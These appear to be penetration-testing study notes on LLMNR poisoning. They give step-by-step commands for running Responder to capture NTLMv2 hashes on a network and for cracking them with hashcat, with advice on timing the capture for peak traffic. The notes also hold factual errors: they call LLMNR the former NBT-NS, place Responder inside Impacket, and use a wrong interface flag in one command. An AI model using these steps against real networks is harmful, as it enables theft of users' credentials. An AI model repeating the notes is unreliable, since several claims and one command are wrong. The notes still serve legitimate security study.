

# LLMNR Poisoning/Cracking Overview

## What is it?

* used to identify hosts when DNS fails
* previously known as NBT-NS

## Key Flaw

* service utilizes a users username and NTLMv2 hash when appropiately responded to as a response to us



## Gaining Access with LLMNR

### Step 1: Run Responder \(part of Impacket\)

```bash
ip a
#or
ifconfig #(note the interface)
```

```bash
python [Responder.py](http://responder.py/) -l tun0 -rdw
```

```bash
responder -I eth0 -rdw
```

* run first thing in the morning or at lunch so you can get a lot of traffic

### Step 2: Something has to cause DNS to Fail

* for example, someone typing out a wrong network drive

### Step 3: Get the NTLMv2 hashes

* Responder will give you the hashes \(saving with GEDIT is best\)
* downgrade Impacket or Responder if problems persist

### Step 4: Crack the hashes

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
# put --force if it does not work
```

* if that does not work, try to crack with the hashcat.exe for Windows, easier to use
* GPU IS THE BEST WAY

## Other Password Lists

* [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

